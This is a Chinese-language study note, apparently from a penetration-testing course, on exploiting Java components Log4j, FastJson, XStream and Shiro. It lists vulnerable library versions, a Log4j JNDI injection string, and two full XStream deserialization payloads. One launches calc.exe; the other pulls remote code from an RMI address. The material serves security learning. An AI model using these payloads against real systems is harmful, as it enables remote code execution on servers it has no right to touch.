





## log4j

一个基于Java的日志记录工具，当前被广泛应用于业务系统开发，开发者可以利用该工具将程序的输入输出信息进行日志记录。

1、Maven引用

2、接受输入值

3、Log4j错误处理

4、Jndi注入RCE执行

```
<dependency>
<groupId>org.apache.logging.log4j</groupId>
<artifactId>log4j-core</artifactId>
<version>2.14.1</version>
</dependency>
```

```
String code="${java:os}";
logger.error("{}",code);
String exp="${jndi:ldap://xx.xx.xx.xx:xx/xxx}";
logger.error("{}",exp);
```

演示：2.14.1版本
结论：尝试输出日志时可利用JNDI注入触发RCE
利用：黑盒在各种地方插入 白盒看哪里有调用（见图）
参考 https://mp.weixin.qq.com/s/95Jxj3R9q95CFhCn86IiYA

## FastJson

```
<dependency>
<groupId>com.alibaba</groupId>
<artifactId>fastjson</artifactId>
<version>1.2.24</version>
</dependency>
<dependency>
<groupId>com.alibaba</groupId>
<artifactId>fastjson</artifactId>
<version>1.2.25</version>
</dependency>
```

1、序列化方法：
JSON.toJSONString()，返回字符串；
JSON.toJSONBytes()，返回byte数组；
2、反序列化方法：
JSON.parseObject()，返回JsonObject；
JSON.parse()，返回Object；
JSON.parseArray(), 返回JSONArray；
将JSON对象转换为java对象：JSON.toJavaObject()；
将JSON对象写入write流：JSON.writeJSONString()；
3、常用：
JSON.toJSONString(),JSON.parse(),JSON.parseObject()
演示：1.2.24及1.2.25版本
结论：反序列化时会调用类里的get及set方法
利用：已知类的调用方法 自带类的调用链固定版本的CVE（见图）
黑盒看传递JSON数据尝试替换 白盒看调用方法和可控变量
参考 https://mp.weixin.qq.com/s/EPdNElXPcZd5wEmQqAhFiQ

## Xstream

一个简单的基于Java库，Java对象序列化到XML，反之亦然(即：可以轻易的将Java对象和XML文档相互转换)。

```
<dependency>
<groupId>com.thoughtworks.xstream</groupId>
<artifactId>xstream</artifactId>
<version>1.4.5</version>
</dependency>

<dependency>
<groupId>com.thoughtworks.xstream</groupId>
<artifactId>xstream</artifactId>
<version>1.4.15</version>
</dependency>
```

反序列化时会调用类里的readObject方法(类需继承接口)
利用：已知类的调用方法 自带类的调用链固定版本的CVE（见图）
黑盒看传递XML数据尝试替换 白盒看调用方法和可控变量
参考 https://mp.weixin.qq.com/s/M_oQyZYQEFu0nbG-IpJt_

```
String payload = "<sorted-set>\n" +

" <dynamic-proxy>\n" +

" <interface>java.lang.Comparable</interface>\n" +

" <handler class=\"java.beans.EventHandler\">\n" +

" <target class=\"java.lang.ProcessBuilder\">\n" +

" <command>\n" +

" <string>calc.exe</string>\n" +

" </command>\n" +

" </target>\n" +

" <action>start</action>\n" +

" </handler>\n" +

" </dynamic-proxy>\n" +

"</sorted-set>";

String poc="<java.util.PriorityQueue serialization='custom'>\n" +

" <unserializable-parents/>\n" +

" <java.util.PriorityQueue>\n" +

" <default>\n" +

" <size>2</size>\n" +

" <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>\n" +

" <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>\n" +

" <packet>\n" +

" <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>\n" +

" <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>\n" +

" <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>\n" +

" <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>\n" +

" <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>\n" +

" <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>\n" +

" <uriProperties/>\n" +

" <attributeProperties/>\n" +

" <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>\n" +

" <getter>\n" +

" <class>com.sun.rowset.JdbcRowSetImpl</class>\n" +

" <name>getDatabaseMetaData</name>\n" +

" <parameter-types/>\n" +

" </getter>\n" +

" </inheritedAttWildcard>\n" +

" </bi>\n" +

" <tagName/>\n" +

" <context>\n" +

" <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>\n" +

" <outer-class reference='../..'/>\n" +

" </marshallerPool>\n" +

" <nameList>\n" +

" <nsUriCannotBeDefaulted>\n" +

" <boolean>true</boolean>\n" +

" </nsUriCannotBeDefaulted>\n" +

" <namespaceURIs>\n" +

" <string>1</string>\n" +

" </namespaceURIs>\n" +

" <localNames>\n" +

" <string>UTF-8</string>\n" +

" </localNames>\n" +

" </nameList>\n" +

" </context>\n" +

" </bridge>\n" +

" </bridge>\n" +

" <jaxbObject class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>\n" +

" <javax.sql.rowset.BaseRowSet>\n" +

" <default>\n" +

" <concurrency>1008</concurrency>\n" +

" <escapeProcessing>true</escapeProcessing>\n" +

" <fetchDir>1000</fetchDir>\n" +

" <fetchSize>0</fetchSize>\n" +

" <isolation>2</isolation>\n" +

" <maxFieldSize>0</maxFieldSize>\n" +

" <maxRows>0</maxRows>\n" +

" <queryTimeout>0</queryTimeout>\n" +

" <readOnly>true</readOnly>\n" +

" <rowSetType>1004</rowSetType>\n" +

" <showDeleted>false</showDeleted>\n" +

" <dataSource>rmi://192.168.1.4:1099/rj6obg</dataSource>\n" +

" <params/>\n" +

" </default>\n" +

" </javax.sql.rowset.BaseRowSet>\n" +

" <com.sun.rowset.JdbcRowSetImpl>\n" +

" <default>\n" +

" <iMatchColumns>\n" +

" <int>-1</int>\n" +

" <int>-1</int>\n" +

" <int>-1</int>\n" +

" <int>-1</int>\n" +

" <int>-1</int>\n" +

" <int>-1</int>\n" +

" <int>-1</int>\n" +

" <int>-1</int>\n" +

" <int>-1</int>\n" +

" <int>-1</int>\n" +

" </iMatchColumns>\n" +

" <strMatchColumns>\n" +

" <string>foo</string>\n" +

" <null/>\n" +

" <null/>\n" +

" <null/>\n" +

" <null/>\n" +

" <null/>\n" +

" <null/>\n" +

" <null/>\n" +

" <null/>\n" +

" <null/>\n" +

" </strMatchColumns>\n" +

" </default>\n" +

" </com.sun.rowset.JdbcRowSetImpl>\n" +

" </jaxbObject>\n" +

" </dataSource>\n" +

" </message>\n" +

" <satellites/>\n" +

" <invocationProperties/>\n" +

" </packet>\n" +

" </indexMap>\n" +

" </comparator>\n" +

" </default>\n" +

" <int>3</int>\n" +

" <string>javax.xml.ws.binding.attachments.inbound</string>\n" +

" <string>javax.xml.ws.binding.attachments.inbound</string>\n" +

" </java.util.PriorityQueue>\n" +

"</java.util.PriorityQueue>";
```

## Shiro

一个强大且易用的安全框架，可用于身份验证、授权、加密和会话管理等。

开发技术：利用AI提示写一个
结论：配置不当或版本安全漏洞
利用：固定版本的CVE利用（见图）
黑盒看身份验证数据包 白盒看版本及安全问题
参考 https://mp.weixin.qq.com/s/kmGcrVmaLi0Db_jwKKNXag